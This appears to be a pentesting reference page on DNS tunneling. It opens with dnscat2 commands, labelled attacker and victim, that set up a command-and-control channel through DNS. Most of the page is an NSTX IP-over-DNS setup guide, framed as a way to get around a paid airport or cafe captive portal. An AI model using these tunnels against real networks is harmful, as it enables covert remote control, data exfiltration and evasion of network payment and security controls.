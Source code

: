 # DNS Tunneling

## DNSCat2

Establishes a C&C channel through DNS. It doesn't need root privileges.

```text
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com
```

## NSTX

is a hack to tunnel IP traffic over DNS.If DNS traffic does not work, but ICMP traffic \(i.e., ping\) works, try ICMPTX: IP-over-ICMP. Note that these instructions play nicely with ICMPTX. You can run both on one proxy.

You need several things to get going:

a DNS server that you can configure, \(we'll call this ns.example.com\) another server, one not running DNS. We're going to assume the IP address of this machine is 1.2.3.4. The reason you cannot run DNS on the same machine, is that you're going to run nstx on this machine. Nstx must run on port 53, like DNS. a crippled Internet connection, i.e., one that only allows you to issue DNS queries.

### Configure a new DNS subdomain

Let's assume you're running the domain "example.com". The nameserver for this domain is, as mentioned before, "ns.example.com". Configure "ns.example.com" by adding a subdomain, "tunnel.example.com". You do this by appending the following DNS records at the end of the zone file for "example.com":

```text
;
; subdomain for IP-over-DNS tunnelling
;
$ORIGIN tunnel.example.com.
@               IN      NS      ns.tunnel.example.com.
ns              IN      A       1.2.3.4
```

In other words. We configured 1.2.3.4 to be the name server for a new subdomain "tunnel.example.com".

### Install and configure the bogus DNS server

On the machine 1.2.3.4, make sure your kernel supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```text
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```text
iface tun0 inet static
  address 10.0.0.1
  netmask 255.0.0.0
```

Now start the server by running:

```text
/etc/init.d/nstxd restart
```

If you're not running Debian, you can skip all that and just download the code, compile it manually, and start the server by hand and then configure the tun0 network device:

```text
# nstxd tunnel.example.com
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.1 netmask 255.255.255.0
```

Whether you're running Debian or not, after running the nstx server, make sure you now have a tun0 device:

```text
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX
          inet addr:10.0.0.1  P-t-P:10.0.0.1  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:50 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:10
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

Now you need to enable forwarding on this server. I use iptables to implement masquerading. There are many HOWTOs about this \(a simple one, for example\). On Debian, the configuration file for iptables is in /var/lib/iptables/active. The relevant bit is:

```text
*nat
:PREROUTING ACCEPT [6:1596]
:POSTROUTING ACCEPT [1:76]
:OUTPUT ACCEPT [1:76]

-A POSTROUTING -s 10.0.0.0/8 -j MASQUERADE
COMMIT
```

Restart iptables:

```text
/etc/init.d/iptables restart
```

and enable forwarding:

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
```

You can make sure this is permanent by editing /etc/sysctl.conf:

```text
net/ipv4/ip_forward=1
```

### Configure the client

Make sure the kernel on the client machine also supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```text
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxcd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```text
iface tun0 inet static
  address 10.0.0.2
  netmask 255.0.0.0
  mtu 500 # optional, may solve ssh problems
```

Marc Merlin points out that you may you want to add something like \(below the mtu line\)

```text
post-up route del default; route add -net default gw 10.0.0.1
```

now you're sitting at an airport or in a cafe, and you have internet access and they want your money before allowing you on the Internet. However, you noticed that you can issue DNS queries.

Assuming you got an IP address through DHCP, you should now know the IP address of the DNS server they want you to use. Your /etc/resolv.conf will contain at least one "nameserver" entry. Make sure you use the first nameserver entry in /etc/resolv.conf and remove the others. For the sake of this example, let's call the first and remaining nameserver 66.77.88.99. Edit /etc/default/nstx and change set NSTX\_DNS\_SERVER to "66.77.88.99". The latest nstx Debian package obviates this manual step as follows:

```text
NSTX_DNS_SERVER=`grep nameserver /etc/resolv.conf |head -1|awk '{print $2}'`
```

That is, it simply sets NSTX\_DNS\_SERVER to the IP address of the first nameserver entry in /etc/resolv.conf.

Now, \(re\)start the nstx client:

```text
 /etc/init.d/nstxcd restart
```

If you don't have Debian, start the client manually:

```text
# nstxcd tunnel.example.com 66.77.88.99
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.2 netmask 255.255.255.0
```

Make sure you now have a tun0 device:

```text
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00
          inet addr:10.0.0.2  P-t-P:10.0.0.2  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

By running /sbin/route -n, figure out what your gateway is. It's the record with the "UG" Flags field. For example:

```text
# /sbin/route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
192.168.1.0     0.0.0.0         255.255.255.0   U     0      0        0 wlan0
0.0.0.0         192.168.1.1     0.0.0.0         UG    0      0        0 wlan0
```

OK. So "192.168.1.1" is our gateway. Assuming your wireless network device is called "wlan0" \(but it might well be "eth1", or whatever\), run:

```text
# /sbin/route del default
# /sbin/route add -host 66.77.88.99 gw 192.168.1.1 dev wlan0
# /sbin/route add default gw 10.0.0.1 tun0
```

Notice that "192.168.1.1" is the IP address of the gateway we learned by running "/sbin/route -n". Similarly, "66.77.88.99" is the nameserver from /etc/resolv.conf. Make sure you plug in the correct IP address in both cases.

You should now be all set. All DNS traffic is going straight to 66.77.88.99. All other traffic will be tunnelled through 1.2.3.4, via DNS.







